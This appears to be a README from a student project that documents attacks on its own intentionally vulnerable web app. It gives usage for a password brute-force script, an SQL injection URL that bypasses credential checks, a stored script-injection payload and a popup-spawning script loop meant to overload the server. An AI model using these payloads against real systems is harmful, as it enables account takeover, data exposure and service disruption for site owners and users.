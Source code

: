 ## Vulnerability Outline
**To exploit the vulnerabilities outlined below, utilize the secret-keeper-not-secure branch**

### Brute-Force Attack
**brutePass.sh**
* BrutePass takes advantage of the PUT login to test username and password combos
* Usernames are provided by the script user
* Passwords are taken from passwords.txt which has the 10000 top passwords

**Directions to use brutePass.sh:**
1. Place brutePass.sh and passwords.txt in the same directory
2. Open a connection to osu servers (do not use flip3, or the same server as the site is hosted if not flip3)
3. Open the directory with brutePass.sh
4. You may need to give yourself permission to run the script: chmod 777 brutePass.sh

**To use the script:** ./brutePass.sh -g username URL

**Examples:**
* ./brutePass.sh -g Kyle flip3.engr.oregonstate.edu:6061
* ./brutePass.sh -g Katie flip3.engr.oregonstate.edu:6061
* ./brutePass.sh -g Admin flip3.engr.oregonstate.edu:6061


### SQL Injection Attack
**HTML SQL Injection:**
* SQL code can be inserted into the URL as placeholders are not used for MySQL credential checks
* Use the following URL to access users' information without their credentials
* flip3.engr.oregonstate.edu:6061/user/'\*'%20OR%20ALL&'\*'%20OR%20ALL

### HTML Injection Attack
**To inject a script:**
1. Sign into any existing user account
2. Add a new record, using the following as the value for one field in the form: 
>"&amp;gt;<script>alert("Warning: This site is vulnerable to an attack")</script>
3. Note the popup alert warning of possible attack

### Distributed Denial of Service (DDoS) Attack
**Fork Bomb:**
1. Make sure that the broswer with the site open will not block popups
2. Add a new record, using the following as the value for the record name:
>"&amp;gt;<script>
function fork() {
  	const win = window.open("http://flip3.engr.oregonstate.edu:6060/user/Kyle&12345");
	setTimeout(fork(), 1);
}
fork(); </script>
3. Select the name of the record (the code) from the record table
NOTE: This does not bring down the school server (thankfully) rather it illustrates how to slow down a weak server
